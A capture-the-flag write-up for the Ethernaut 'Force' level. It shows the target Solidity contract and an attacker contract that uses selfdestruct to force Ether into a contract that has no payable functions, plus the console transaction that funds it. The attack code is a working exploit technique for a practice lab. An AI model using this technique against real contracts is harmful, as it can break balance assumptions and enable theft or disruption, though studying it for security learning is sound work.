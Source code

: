 # Description

Some contracts will simply not take your money `¯\_(ツ)_/¯`

The goal of this level is to make the balance of the contract greater than zero.

  Things that might help:

- Fallback methods
- Sometimes the best way to attack a contract is with another contract.
- See the Help page above, section "Beyond the console"

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

# Notes

- To solve this challenge, we must send money to the contract, which in itself is a challenge, because there are no payable functions defined here, so we must look elsewhere.
- The idea is to use the `selfdestruct(address)` low-level opcode call which lets you abandon your smart contract and move all remaining Ethers to another address.
- we can do just that with the attack contract defined bellow :
```solidity
// SPDX-License-Identifier: GPL-3.0

pragma solidity >=0.7.0 <0.9.0;

contract AttackContract {

    function collect() public payable returns(uint) {
        return address(this).balance;
    }

    function attack() public {
        address addr = 0x9775aD95cf21c7737c2f4B2408106a583E811021;
        selfdestruct(payable(addr));
    }

}
```

we send ethers to the attack contract like so :
```
await sendTransaction({
  from: player,
  to: "0x72AF8e8F223F9c4eEC7d23c8171B60aeEd6E0d47",
  data: "0xbd4852e20000000000000000000000000000000000000000000000000000000000000000",
  value: toWei('0.0005')
});
```